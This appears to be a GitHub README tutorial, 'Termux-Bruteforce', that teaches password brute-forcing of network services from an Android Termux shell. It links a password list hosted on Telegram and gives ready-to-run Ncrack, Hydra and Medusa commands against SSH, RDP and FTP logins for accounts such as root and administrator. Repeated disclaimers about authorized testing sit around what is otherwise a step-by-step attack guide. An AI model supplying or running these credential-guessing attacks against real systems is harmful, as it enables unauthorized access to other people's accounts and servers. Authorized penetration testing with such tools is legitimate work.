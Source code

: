 # Termux-Bruteforce
[How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB]


PASSWORD.TXT file can be found in Telegram Channel with link 👇👇
https://t.me/VPNConFiles/1330

Or Download directly from here
[Download](Password_.txt)

As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

**1. Hydra:** It is a fast and flexible login cracker which supports various protocols, including *HTTP, FTP, Telnet, IMAP*, etc.


**2. Medusa:** It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as *FTP, SSH, IMAP*, etc.


**3. Ncrack:** It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as *SSH, HTTP, SMB*, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



**Here are some examples of using Ncrack on Termux:**



[How to Setup NCRACK in Termux](How to Setup NCRACK in Termux)

**1. Ncrack with SSH:**
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

**2. Ncrack with RDP:**
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







**Here are some examples of using Hydra on Termux:**

**1. Hydra with SSH:**
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

**2. Hydra with FTP:**
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









**Here are some examples of using Medusa on Termux:**

**1. Medusa with SSH:**
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

**2. Medusa with FTP:**
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
